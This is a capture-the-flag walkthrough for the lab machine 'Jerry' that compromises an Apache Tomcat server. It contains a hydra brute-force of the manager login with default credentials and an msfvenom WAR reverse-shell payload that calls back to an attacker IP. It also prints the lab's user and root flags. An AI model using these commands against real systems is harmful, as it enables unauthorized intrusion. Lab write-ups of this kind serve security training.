







- Machine Name: Jerry
- Difficulty: Easy
- OS type: Windows

### Port Scanning - Service & Version Enumeration

```bash
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```

## Enumeration

### Port 8080/HTTP

port 8080 is running apache Tomcat



let’s search for any known exploit for apache tomcat 7.0.88, no luck we didn’t find anything

let’s try to access Manager App section



let’s use the hydra to bruteforce the credentials for tomcat we used common username and password list from github https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

```bash
hydra -L usernames.txt -P password.txt http-get://10.10.10.95:8080/manager/html
```



let’s try to use admin:admin first and then try tomcat:s3cret, tomcar secret worked!



let’s create a war reverse shell using msfvenom and then upload

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.14 lport=8080 -f war -o pwn.war
```



after uploading file we can see it in the tomcat application manager 



let’s start netcat listener on port 8080, and then execute the /pwn by clicking on it



bingo! we are SYSTEM user!

### User.txt: 7004dbcef0f854e0fb401875f26ebd00

### Root.txt: 04a8b36e1545a455393d067e772fe90e